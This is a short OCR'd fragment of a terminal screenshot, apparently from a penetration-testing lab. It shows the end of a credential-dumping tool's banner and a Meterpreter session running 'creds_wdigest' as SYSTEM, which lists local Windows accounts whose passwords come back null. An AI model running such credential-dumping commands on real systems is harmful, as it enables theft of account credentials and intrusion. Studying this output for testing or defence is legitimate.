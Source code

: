   '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-PL99PE8$  WORKGROUP        (null)
test              DESKTOP-PL99PE8  (null)


meterpreter >
```
